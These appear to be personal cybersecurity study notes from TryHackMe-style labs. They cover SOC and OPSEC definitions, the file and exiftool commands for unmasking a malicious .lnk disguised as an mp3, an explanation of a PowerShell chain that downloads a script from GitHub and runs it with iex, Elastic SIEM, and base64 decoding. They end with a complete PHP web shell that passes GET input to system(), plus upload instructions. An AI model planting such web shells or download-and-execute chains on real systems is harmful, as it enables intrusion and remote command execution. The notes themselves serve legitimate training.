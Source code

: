 ##### **Security Operations Center (SOC)** 
It is a team of IT security professionals tasked with monitoring, preventing , detecting , investigating, and responding to threats within a company’s network and systems.

##### Operational Security (OPSEC) 
It is a set of principals and tactics used to attempt to protect the security of an operator or operation. An example of this may be using code names instead of your real names, or using a proxy to conceal your IP address.
##### File Command
```shell-session
user@tryhackme:~$ file song.mp3
download.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
```


```shell-session
user@tryhackme:~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
```

Here, MS Windows shortcut = .lnk file::

##### Exiftool
``` shell
user@tryhackme:~$ exiftool somg.mp3
``` 
![](../Attachements/Pasted%20image%2020241208123022.png)
![](../Attachements/Pasted%20image%2020241208130704.png)
What this PowerShell command does:

- The `-ep Bypass -nop` flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

If you visit the contents of the file to be downloaded using your browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), you will see just how lucky we are that we are not currently using Windows.

##### ELASTIC SIEM
Elastic SIEM is a security information and event management platform that helps organizations detect, investigate, and respond to security threats. It aggregates and analyzes data from various sources to provide real-time insights and alerts on potential security incidents.
Elastic Security SIEM (Security Information and Event Management) is a product built on top of the Elastic Stack, which provides security insights and real-time threat detection. 

###### base64 commands

![](../Attachements/Pasted%20image%2020241208144057.png)
``` shell
┌──(root㉿kali)-[~/Desktop/THM]
└─# echo SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA== | base64 --decode
Install-WindowsUpdate -AcceptAll -AutoReboot 
```   

###### PHP File Upload
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
If we add above command in a file and upload it to the website and later navigate to the uploaded directory, it gives command injection tab where we can input the commands like below:
![](../Attachements/Pasted%20image%2020241225122355.png)
